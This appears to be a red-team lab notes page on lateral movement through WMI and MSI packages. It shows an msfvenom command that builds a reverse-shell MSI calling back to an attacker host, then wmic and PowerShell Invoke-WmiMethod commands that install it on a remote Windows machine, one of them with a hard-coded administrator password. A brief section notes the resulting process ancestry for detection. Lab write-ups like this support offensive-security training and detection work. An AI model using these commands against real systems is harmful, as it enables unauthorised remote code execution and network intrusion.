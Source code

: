# WMI + MSI Lateral Movement

## Execution

Generating a payload in MSI \(Microsoft Installer Package\):

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f msi > evil64.msi
```

![](../.gitbook/assets/screenshot-from-2018-10-19-17-31-00.png)

I tried executing the .msi payload like so, but got a return code `1619` and quick search on google showed me nothing usefull:

```text
wmic /node:10.0.0.7 /user:offense\administrator product call install PackageLocation='\\10.0.0.2\c$\experiments\evil64.msi'
```

![](../.gitbook/assets/screenshot-from-2018-10-19-18-45-55.png)

Not a clean way of achieving the goal, but worked anyways:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
net use \\10.0.0.7\c$ /user:administrator@offense; copy C:\experiments\evil64.msi \\10.0.0.7\c$\PerfLogs\setup.msi ; wmic /node:10.0.0.7 /user:administrator@offense product call install PackageLocation=c:\PerfLogs\setup.msi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/peek-2018-10-19-18-41.gif)

Additionally, the same could of course be achieved using powershell:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential (Get-Credential)
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-19-19-02-10.png)

![](../.gitbook/assets/screenshot-from-2018-10-19-19-02-48.png)

Or if no GUI for credentials, a oneliner:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
$username = 'Administrator';$password = '123456';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential $credential
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-19-19-09-42.png)

## Observations

Note the process ancestry: `services > msiexec.exe > .tmp > cmd.exe`:

![](../.gitbook/assets/screenshot-from-2018-10-19-18-46-37.png)

and that the connection is initiated by the .tmp file \(I ran another test, hence another file name\):

![](../.gitbook/assets/screenshot-from-2018-10-19-18-55-53.png)

{% embed url="https://twitter.com/buffaloverflow/status/1002523407261536256" %}

